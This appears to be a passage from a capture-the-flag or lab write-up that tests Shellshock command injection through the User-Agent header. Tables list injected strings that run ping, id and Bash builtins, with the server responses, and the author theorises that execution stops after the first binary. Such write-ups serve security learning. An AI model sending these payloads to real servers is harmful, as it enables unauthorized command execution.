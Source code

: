   UA String                                                                           HTTP Code   Pings at tcpdump   Output in Resp
  ----------------------------------------------------------------------------------- ----------- ------------------ ----------------
  `User-Agent: () { :;}; /usr/bin/perl -e 'print "\n"'; /bin/ping -c 1 10.10.14.15`   200         0                  None

Same result. What about `ping` after `ping`?

  UA String                                                                                                           HTTP Code   Pings at tcpdump   Output in Resp
  ------------------------------------------------------------------------------------------------------------------- ----------- ------------------ ------------------
  `User-Agent: () { :;}; echo; /bin/ping -c 1 10.10.14.15; /bin/ping -c 1 10.10.14.15; /bin/ping -c 1 10.10.14.15;`   200         1                  One set of pings

It's looking more and more that any command kills the execution. So why
not `echo`? Well, `echo` is a Bash builtin. What about other builtins
(see `man bash`), like `printf` and `dirs`?

  UA String                                          HTTP Code   Pings at tcpdump   Output in Resp
  -------------------------------------------------- ----------- ------------------ ---------------------------
  `User-Agent: () { :;}; printf "\n"; /usr/bin/id`   200         N/A                `id`
  `User-Agent: () { :;}; echo; dirs; /usr/bin/id`    200         N/A                output of `dirs` and `id`

At this point, I don't have any proof (I could go debugging Apache, but
ugh, threads, sounds like a huge pain). I do have a good theory that I
can't find counter-examples for, and it's this: Shellshock will run as
many Bash builtins as given up to the first binary called and then stop.
A slight caveat to that is that pipes don't seem to break it. For
example, I can pipe `id` into `cut` to get the first 10 characters of
output without issue, even though neither `cut` nor `id` are builtins:

![](/img/image-20210517213416440.png)

`;`, `&&`, and `||` following a all seem to break execution at that
point.





